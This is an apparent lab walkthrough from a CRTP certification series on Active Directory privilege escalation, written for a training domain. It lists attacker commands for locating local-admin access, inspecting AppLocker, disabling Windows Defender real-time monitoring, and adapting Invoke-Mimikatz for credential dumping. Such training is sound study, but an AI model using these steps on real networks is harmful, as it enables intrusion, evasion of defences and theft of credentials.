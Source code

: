 ```yaml
---
title: Active Directory (AD) | Local Privilege Escalation (Part 3)
author: beardenx
date: 2024-07-03 00:00:00 +0800
categories: [Cert, CRTP]
tags: [cert,active directory]     ## TAG names should always be lowercase
render_with_liquid: false
description: Designed to provide a comprehensive guide to Active Directory (AD) attack techniques
---
```


## Step 6: Derivative Local Admin Escalation

**Objective**: Escalate privileges to domain admin using derivative local admin access on dcorp-adminsrv.

### **Identify Machines with Local Admin Access**
- Use Find-PSRemotingLocalAdminAccess.ps1 PowerShell script to identify machines where local admin privileges are available.

```bash
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
```
- Note down dcorp-adminsrv as having local admin privileges.


### **Check Applocker Configuration**

- Verify Applocker policy on dcorp-adminsrv to understand script execution permissions.

```bash
winrs -r:dcorp-adminsrv reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2\Script
```

- Confirm the presence of Applocker rules allowing scripts from %PROGRAMFILES% and %WINDIR%.

### **Inspect Applocker Policy via PowerShell**

- Enter a PowerShell session on dcorp-adminsrv to check Applocker policy details.

```bash
Enter-PSSession dcorp-adminsrv
$ExecutionContext.SessionState.LanguageMode  # Confirm Constrained Language Mode
Get-AppLockerPolicy -Effective | Select-Object -ExpandProperty RuleCollections
```

- Ensure scripts from %PROGRAMFILES% are allowed for the Everyone group.

### **Disable Windows Defender Real-time Monitoring**

- Disable Windows Defender real-time monitoring on dcorp-adminsrv to evade antivirus detection.

```bash
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
```

### **Modify and Transfer Invoke-Mimikatz**

- Due to Constrained Language Mode restrictions, modify Invoke-Mimikatz.ps1 to embed function calls and create Invoke-MimikatzEx.ps1.
- Transfer the modified script (Invoke-MimikatzEx.ps1) from your local machine to dcorp-adminsrv.
